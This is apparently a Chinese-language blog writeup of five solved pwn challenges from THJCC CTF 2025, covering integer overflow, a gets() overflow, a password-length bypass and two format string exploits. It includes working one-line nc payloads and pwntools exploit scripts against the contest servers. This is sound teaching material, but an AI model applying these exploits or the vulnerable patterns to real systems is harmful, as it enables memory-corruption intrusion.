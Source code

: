 ```yaml
---
title: THJCC CTF 2025 - pwn Writeup
published: 2025-04-22 02:45:00
updated: 2025-05-28T02:48:23.404Z
description: ""
image: ""
tags:
  - pwn
category: CTF
draft: false
lang: ""
---
```


> 比賽時 pwn 的題目並沒有寫完全部（5/7），若後續有解出來會再補上。

## Flag Shoping

It's the FLAG SHOP!!! Let's go buy some flags!!!

> Author: Grissia

`nc chal.ctf.scint.org 10101`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/flag_shopping.c)

### Solution

這一題是典型的 interger overflow 題，使用者可以選擇購買商品、輸入購買數量 `(long long)num`，而用來儲存持有金錢的 `money` 又是 `int` 型別。第 43 行在扣錢時，又將 `num` 轉型成 `int`，所以我們可以考慮以下攻擊流程：

- 輸入數量一個比 `INT_MAX` 大的數，讓第 43 行轉型別時會變成負數。在減法時就會**負負得正**。
- 重複以上動作直到持有金錢累計大於購買 flag 的金額 123456789。

所以我們的目標是讓 `money` 比原先多 123456789 - 100 = 123456689。

如果輸入的數字是 `INT_MAX` + 1 的話，型別轉換後會變成 `INT_MIN`，乘上 25 後就會再次 overflow 讓 `money` 變成負數。

```
> 1
> 2147483648
> 3
> 1
You only have -2147483548, But it cost 123456789 * 1 = 123456789
...
```

會導致這樣是因為原本 money 裡面有 100 元，所以就只要把輸入加上 100 / 25 = 4 後，應該就可以扣掉多餘的錢避免 overflow。但經測試之後要再加上 1 才夠。

## Money Overflow

I'm so poor that I can't afford to eat. I really wish I had a rich little sister to save me QQ

> Author: Dr.dog

`nc chal.ctf.scint.org 10001`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/money_overflow.c)

### Solution

這題就是簡單的 stack overflow 題，使用者的資訊會被存在一個 `struct` 裡面：

```c
struct {
  int id;
  char name[20];
  unsigned short money;
} customer;
```

而程式一開始就用不安全的函式讀，取使用者的輸入到 `customer.name`。這就給了我們利用的機會，只要填滿 `name` 後，就可以覆蓋到 `money` 的值。

```c
customer.id = 1;
customer.money = 100;
printf("Enter your name: ");
gets(customer.name);
```

而題目要求要 65535 才能拿到 shell，因此只要蓋 `\xff\xff` 就可以了。

```zsh
echo -e 'AAAAAAAAAAAAAAAAAAAA\xff\xff\n5\ncat flag.txt' | nc chal.ctf.scint.org 10001
```

## Insecure Shell

SSH is outdated<br>
ISSH is a more convenient alternative

> Author: Dr.dog

`nc chal.ctf.scint.org 10004`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/insecure_shell.c)

### Solution

這題會從 `/dev/urandom` 取出一段 15 bytes 的密碼，使用者必須輸入正確的密碼才能拿到 shell。但仔細閱讀程式碼，可以發現 `check_password()` 傳入的長度是使用者可控的，而不是密碼長度 15。

```c
check_password(password, buf, strlen(buf))
```

因此可以直接輸入一個長度 0 的字串繞過檢查，並拿到 shell。

```zsh
echo -e '\x00\ncat ../flag.txt' | nc chal.ctf.scint.org 10004
```

## Once

Are you sure you want to bet your life on winning this game in one chance?

![hyakusetsufuto](https://i.pinimg.com/736x/a4/5f/02/a45f02340a7bceef28ad678c5cd6507f.jpg)

> Author: Dr.dog

`nc chal.ctf.scint.org 10002`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/once.c)

### Solution

這一題是 format string 題，可以在程式碼中看到 `printf(buf)` 這種標誌型的特徵。程式一開始會隨機生成 `secret` 的內容，並在使用者輸入相同的字串時才能拿到 shell。既然是 format string，我們就可以嘗試 leak 出 `secret` 的內容。

```py
io.sendline(b"%8$p.%9$p")
    
io.recvuntil(b"Your guess: ")
high = io.recvuntil(b".").strip(b".")
high = int(high, 16)
low = io.recvuntil(b"\n").strip(b"\n")
low = int(low, 16)

secret =  p64(high) + p64(low)
info("secret: " + secret.decode());

io.sendline(b"n")

io.sendline(secret.strip(b"\x00"))
io.sendline(b"y")

io.sendline(b"cat ../flag.txt")
sleep(0.5)

io.recvuntil(b"answer!\n")
io.interactive()
io.close()
```

## Little Parrot

I'm a little parrot, and I'll repeat whatever you said!

> Author: Grissia

`nc chal.ctf.scint.org 10103`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/little_parrot.c)

### Solution

這一題也可以看到 format string 的漏洞，問題在於要怎麼跳到 `win()`。我的作法是 leak 出 stack 和 .text 段的 address，計算 offset 後用 format string 再寫入 return address 的指標。

```py
io.sendline(b"%40$p.%41$p")  # prev frame addr
io.recvuntil(b"You said > ")

prev_rbp = io.recvuntil(b".").strip(b".")
info("prev_rbp: " + prev_rbp.decode())

ret_addr = io.recvline().strip()
info("ret_addr: " + ret_addr.decode())

ptr_ret_addr = int(prev_rbp, 16) - frame_offset
info("ptr_ret_addr: " + hex(ptr_ret_addr))

win_addr = int(ret_addr, 16) - win_offset
info("win_addr: " + hex(win_addr))

info(hex(ptr_ret_addr + 4) + " -> win_addr: " + hex(win_addr))

payload = fmtstr_payload(
    offset=6,
    writes={
        ptr_ret_addr: win_addr,
    },
    write_size='short',
)

info(b"payload: " + payload)

io.sendline(payload)

io.sendline(b"exit")
io.interactive()
io.close()
```

## Bank Clerk

Do you know what the "Principle of Least Privilege" is? But what if I can control the system even through I'm just a bank clerk?

> Author: Dr.dog

`nc chal.ctf.scint.org 10003`

## Painter

I created a stack structure to store my artwork:D

> Author: Dr.dog

`nc chal.ctf.scint.org 10006`
